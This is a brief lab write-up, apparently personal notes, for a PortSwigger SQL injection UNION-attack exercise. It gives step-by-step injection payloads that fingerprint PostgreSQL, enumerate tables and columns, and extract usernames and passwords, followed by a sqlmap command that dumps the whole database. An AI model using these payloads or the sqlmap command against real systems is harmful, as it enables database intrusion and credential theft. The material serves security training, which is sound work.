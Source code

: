 https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables
Confirm a single quotes causes 500, this indicata it could be vulnerable to SQL
So we select any data using `UNION SELECT` instead of simply `UNION` because we are injection a query into another
Let's start to see if proper handles a simple injection`/filter?category=Pets'UNION+SELECT+NULL,NULL--` and then confirm it is an PostgreSQL `/filter?category=Pets'UNION+SELECT+NULL,version()--`. Now to explore what tables are being used let's take a look to the following query
```url
/filter?category=Pets'UNION+SELECT+table_name,null+FROM+information_schema.tables--
```
now see `/filter?category=Pets'UNION+SELECT+column_name,null+FROM+information_schema.columns+WHERE+table_name='users'--` and realize that there are 
If we could retrieve data from certain column, you should use `from` keyword
```sql
/filter?category=Pets'+UNION+SELECT+username,+password+FROM+users--
```

### automated
You could easily do this lab with automated tools:
```bash
sqlmap --dump-all -u "https://0adc00b404a522928156e34000c8000d.web-security-academy.net/filter?category=Pets" -p category --level=3 --risk=3 --batch --dbs
```
